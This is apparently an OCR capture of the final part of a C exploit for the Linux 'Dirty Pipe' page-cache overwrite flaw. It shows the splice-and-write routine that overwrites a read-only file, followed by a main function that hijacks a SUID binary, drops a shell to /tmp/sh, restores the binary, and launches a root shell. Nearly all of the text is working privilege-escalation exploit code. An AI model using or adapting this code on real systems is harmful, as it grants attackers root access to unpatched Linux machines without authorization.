 ```
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return -1;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return -1;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, len);
	if (nbytes < 0) {
		perror("write failed");
		return -1;
	}
	if ((size_t)nbytes < len) {
		fprintf(stderr, "short write\n");
		return -1;
	}

	close(fd);

	return 0;
}

int main(int argc, char **argv) {
	if (argc != 2) {
		fprintf(stderr, "Usage: %s SUID\n", argv[0]);
		return EXIT_FAILURE;
	}

	char *path = argv[1];
	uint8_t *data = elfcode;

	int fd = open(path, O_RDONLY);
	uint8_t *orig_bytes = malloc(sizeof(elfcode));
	lseek(fd, 1, SEEK_SET);
	read(fd, orig_bytes, sizeof(elfcode));
	close(fd);

	printf("[+] hijacking suid binary..\n");
	if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] dropping suid shell..\n");
	system(path);

	printf("[+] restoring suid binary..\n");
	if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
	system("/tmp/sh");

	return EXIT_SUCCESS;
}
```